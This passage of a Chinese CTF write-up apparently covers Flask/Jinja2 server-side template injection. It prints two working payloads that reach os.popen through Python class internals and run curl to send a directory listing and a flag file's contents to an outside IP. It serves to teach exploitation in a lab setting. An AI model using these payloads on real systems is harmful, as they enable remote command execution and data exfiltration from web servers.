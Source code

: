 ```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `ls /|grep flag`') %}1{% endif %}


```

如下图所示，发现 flag 文件：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-35ba9c3a-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-35ba9c3a-bd3e-1.png)

执行如下 payload 读取 flag：

```
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://47.xxx.xxx.72:2333 -d `cat /flag_1s_Hera`') %}1{% endif %}


```

读取成功：

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-36059136-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174725-36059136-bd3e-1.png)

未完待续……
------

> 参考：
> 
> [https://evi0s.com/2018/11/26 / 深入 SSTI - 从 NCTF2018 两道 Flask 看 bypass 新姿势](https://evi0s.com/2018/11/26/%E6%B7%B1%E5%85%A5ssti-%E4%BB%8Enctf2018%E4%B8%A4%E9%81%93flask%E7%9C%8Bbypass%E6%96%B0%E5%A7%BF%E5%8A%BF/)
> 
> [https://misakikata.github.io/2020/04/python - 沙箱逃逸与 SSTI](https://misakikata.github.io/2020/04/python-%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E4%B8%8ESSTI/#SSTI)
> 
> [https://www.gem-love.com/ctf/2598.html](https://www.gem-love.com/ctf/2598.html)
